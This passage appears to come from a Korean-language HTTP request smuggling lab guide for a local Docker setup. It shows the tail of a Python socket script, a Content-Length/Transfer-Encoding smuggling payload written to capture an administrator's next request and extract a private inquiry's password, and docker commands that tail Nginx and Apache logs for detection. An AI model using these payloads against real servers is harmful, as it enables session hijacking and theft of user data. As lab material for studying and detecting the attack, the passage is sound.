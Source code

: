 ```python
# 두 번째 정상 요청 (smuggled "G"와 결합됨)
normal_request = (
    b"GET /index.php HTTP/1.1\r\n"
    b"Host: localhost:9000\r\n"
    b"\r\n"
)
sock.sendall(normal_request)
response2 = sock.recv(4096)
print("Response 2:", response2.decode())

sock.close()
```

### 방법 5: 고급 - Admin 권한 탈취

```http
POST /support.php HTTP/1.1
Host: localhost:9000
Content-Length: 256
Transfer-Encoding: chunked

0

POST /api/get_inquiry_detail.php HTTP/1.1
Host: localhost:9000
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

id=2&password=1234
Cookie: PHPSESSID=[관리자 세션]
X-Forwarded-For: 127.0.0.1
```

**목적**:
- 관리자의 다음 요청을 가로채서
- 비공개 문의(ID=2)의 비밀번호를 추출

## 🔍 탐지 방법

### 1. Nginx 로그 확인

```bash
docker exec 1xinv_nginx tail -f /var/log/nginx/access.log
docker exec 1xinv_nginx tail -f /var/log/nginx/error.log
```

### 2. Apache 로그 확인

```bash
docker exec 1xinv_web_v2 tail -f /var/log/apache2/access.log
docker exec 1xinv_web_v2 tail -f /var/log/apache2/error.log
```
